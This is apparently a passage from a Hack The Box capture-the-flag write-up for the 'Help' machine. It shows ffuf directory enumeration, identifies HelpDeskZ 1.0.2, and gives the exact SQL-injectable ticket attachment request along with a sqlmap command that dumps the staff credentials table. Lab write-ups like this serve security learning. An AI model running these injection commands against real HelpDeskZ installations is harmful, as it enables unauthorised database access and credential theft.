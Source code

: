 ```
 :: URL              : http://help.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 302
________________________________________________

                        [Status: 200, Size: 11321, Words: 3503, Lines: 376, Duration: 2876ms]
.htaccess               [Status: 403, Size: 292, Words: 22, Lines: 12, Duration: 3876ms]
.hta                    [Status: 403, Size: 287, Words: 22, Lines: 12, Duration: 3877ms]
.htpasswd               [Status: 403, Size: 292, Words: 22, Lines: 12, Duration: 8032ms]
index.html              [Status: 200, Size: 11321, Words: 3503, Lines: 376, Duration: 324ms]
javascript              [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 325ms]
server-status           [Status: 403, Size: 296, Words: 22, Lines: 12, Duration: 323ms]
support                 [Status: 301, Size: 306, Words: 20, Lines: 10, Duration: 322ms]
```

Q8: What version of HelpDeskZ is running on Help?
- on helpdeskz's github it states the version is 1.0.2 (2015)
- https://github.com/ViktorNova/HelpDeskZ

Q9: What is the username that we can get a shell as on help?
- there are two vulnerabilities that will allow us to gain a RCE to the target
- both requires a ticket with valid attachment to be raised at http://help.htb/support/?v=submit_ticket
1. SQLi
 - the vulnerability is located at getting the uploaded attachment of a ticket
 -  `GET /support/?v=view_tickets&action=ticket&param[]=4&param[]=attachment&param[]=1&param[]=6`
 - the last parameter is vulnerable to SQLi 
 - we can exploit this with SQLmap or a custom script 
 - ive tried different scripts from exploitdb as well as the official writeup, tried to tweak it however unable to get the password hash
```
$ sqlmap -r ticket_attechment.request --level 5 --risk 3 -p param[] -D support -T staff --dump
        ___
       __H__                                                                                                                                      
 ___ ___[.]_____ ___ ___  {1.9.2#stable}                                                                                                          
|_ -| . ["]     | .'| . |                                                                                                                         
|___|_  ["]_|_|_|__,|  _|                                                                                                                         
      |_|V...       |_|   https://sqlmap.org                                                                                                      

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 06:55:42 /2025-06-10/

[06:55:42] [INFO] parsing HTTP request from 'ticket_attechment.request'
[06:55:42] [INFO] resuming back-end DBMS 'mysql' 
[06:55:42] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: param[] (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
```